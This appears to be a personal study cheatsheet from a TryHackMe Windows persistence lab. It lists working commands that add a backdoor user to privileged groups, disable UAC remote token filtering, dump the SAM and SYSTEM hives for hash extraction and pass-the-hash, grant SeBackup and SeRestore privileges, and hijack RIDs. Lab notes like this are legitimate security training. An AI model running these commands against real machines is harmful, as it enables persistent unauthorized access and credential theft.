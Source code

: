 # Windows Persistence - Tampering with Unprivileged Accounts

## Assigning Group Memebership

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrative privileges when logging in remotely with a limited access token with no administrative privileges, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
For reference see the official documentation regarding [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) and forcomplete token table [[SePrivilege-Token-Table]].

The Backup Operators group has the following:
-   **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place, see [[SeBackupPrivilege]]
-   **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

As this group we can assign the above privileges to any user regardless of group,
```powershell
secedit /export /cfg config.inf
# add username to the lines 
SeBackupPrivilege = *S-1-5...sid,<username>
SeRestorePrivilege = *S-1-5...sid,<username>
# convert .inf into .sdb, then load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# This user can log in via WinRM; you can instead adding user to Remote Management group 
# Change the Security Descriptor; requires GUI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# add user
```

## RID Hijacking
Changing some registry values to trick the operating systemlike you are the Administrator. Relateive ID (RID) is assign on user creation when that user logs in the LSASS create a access token based the RID matched from the SAM registery hive. This method will require ability to edit the registery. With [[Sysinternals-Psexec]]
```powershell 
PsExec64.exe -i -s regedit
# Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```


## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
